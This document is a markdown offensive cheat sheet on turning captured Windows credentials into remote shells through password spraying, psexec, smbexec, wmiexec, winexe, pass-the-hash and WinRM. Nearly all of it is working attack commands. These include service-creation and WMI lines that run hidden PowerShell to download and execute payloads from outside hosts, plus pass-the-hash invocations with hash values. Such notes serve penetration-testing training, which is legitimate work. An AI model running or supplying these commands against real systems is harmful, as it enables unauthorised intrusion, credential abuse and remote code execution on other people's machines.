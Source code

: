 # Using Credentials

## Password Spraying
- `auxiliary/scanner/smb/smb_login`
- Send the same credentials to all hosts listening on 445
    - `msf auxiliary(smb_login) > services -p 445 -R`
- Can do same with `CrackMapExec` for a subnet: https://github.com/byt3bl33d3r/CrackMapExec
- Can use following command to explore:
```
net use \\machine-name /user:username@domainname passwords
dir \\machine-name\c$
net use
```
- Can be detected by using `net session`
- Can terminate all session with `net use /delete *`
- Some commands, such as `net view` use the login user-name. .: use `runas`
```
runas /netonly /user:user@domainname "cmd.exe"
net view \\machine-name /all
```
- Verify it uses Kerberos by `klist`

## Get shells

### psexec
- `auxiliary/admin/smb/psexec`
- `auxiliary/admin/smb/psexec_comman`
- psexec.py - https://github.com/CoreSecurity/impacket

```
/opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.10
```

```
PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
```
```
\\machinename -u user@domainname -p password cmd.exe
```
- `-s` to get `SYSTEM` shell
- Use runas to use Kerberos TGT and avoid giving password:
```
runas /netonly /user:user@domainname PsExec.exe \\machinename -u user@domainname  cmd.exe
```

Manual Operation
- Copy a binary to the ADMIN$ share over SMB (`C:\Windows\PSEXECSVC.exe.`)
    - `copy example.exe \\machine\ADMIN$`
- Create a service on the remote matching pointing to the binary
    - `sc \\machine create serviceName binPath="c:\Windows\example.exe"`
- Remotely start the service
    - `sc \\machine start serviceName`
- When exited, stop the service and delete the binary
    - `del \\machine\ADMIN$\example.exe`

### smbexec.pp
- Stealthier (does not drop a binary)
- Creates a service
- Service File Name contains a command string to execute (%COMSPEC% points to the absolute path of cmd.exe)
- Echos the command to be executed to a bat file, redirects the stdout and stderr to a Temp file, then executes the bat file and deletes it.
- Creates a log entry for each command.
-
```
Use Metasploit web_delivery to send script

sc \\machine create serviceName binPath="powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');"
sc \\machine start serviceName
```

### Winexe
- https://sourceforge.net/projects/winexe/

```
winexe -U Administrator //10.10.10.82 cmd.exe
```

#### Pass the hash
```
pth-winexe
-U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
//10.10.10.63 cmd
```

### wmiexec.py
- Windows Management Instrumentation (WMI) to launch a semi-interactive shell.
- WMI is the infrastructure for management data and operations on Windows (like SNMP).
- without touching disk or creating a new service.


```
wmiexec.py administrator:password@10.10.10.10
```
```
wmic computerystem list full /format:list  
wmic process list /format:list  
wmic ntdomain list /format:list  
wmic useraccount list /format:list  
wmic group list /format:list  
wmic sysaccount list /format:list  
```
- https://techcommunity.microsoft.com/t5/Ask-The-Performance-Team/Useful-WMIC-Queries/ba-p/375023
- https://windowstech.net/wmic-commands/
- Can query remotely.
- Logging for WMI events is disabled by default: https://msdn.microsoft.com/en-us/library/windows/desktop/aa826686(v=vs.85).aspx
```
wmic
wmic> /node:"machinename" /user:"username" computerystem list full /format:list
```
- Local admins on a remote machine
```
wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")  
```
- Who is logged-in: `wmic /node:ordws01 path win32_loggedonuser get antecedent`
- Read nodes from text file: `wmic /node:@workstations.txt path win32_loggedonuser get antecedent  `
- Execute command:
```
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...  
```
```
wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**"  
```
- Used in:
    - https://github.com/samratashok/nishang
    - https://github.com/PowerShellMafia/PowerSploit
    - CrackMapExec
    - wmiexec.py
    - wmis

### pth-wmis

pth-wmis doesn’t work on 64 bit Kali, however, pth-wmic works with no issues and apparently this has been a problem since 2013. After downloading the 32 bit version of pth-wmis and the required libraries, we are back up and running.

```
echo "iex (New-Object Net.WebClient).DownloadString('http://172.16.67.128:80/6WcepYO')" | iconv --to-code UTF-16LE | base64 -w 0
kaliwmis-32 -U administrator%badpassword //10.10.10.10 "cmd.exe /c  powershell.exe -nop -enc <base64-value>"
```


### Windows Remote Management (WinRM)
- 5985/tcp (HTTP) / 5986/tcp (HTTPS)
- Allows remote management of Windows machines over HTTP(S) using SOAP.
- On the backend it's utilizing WMI.
- Enable: `Enable-PSRemoting -Force Set-Item wsman:\localhost\client\trustedhosts *`
- Test if target is configured for WinRM: `Test-WSMan machinename`
- Execute command: `Invoke-Command -Computer ordws01 -ScriptBlock {ipconfig /all} -credential CSCOU\jarrieta  `
    - Command line: `Enter-PSSession -Computer ordws01 -credential CSCOU\jarrieta `
- Force enabling WinRM:
```
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\ordws04 -u cscou\jarrieta -p nastyCutt3r -h -d powershell.exe "enable-psremoting -force"  
```

### CrackMapExec
- "-x" parameter to send commands.
- wmiexec.py across multiple IPs

### Using Remote Desktop
- Impacket's rdp_check to see if you have RDP access,
- Then use Kali's rdesktop to connect:


## References
> - https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

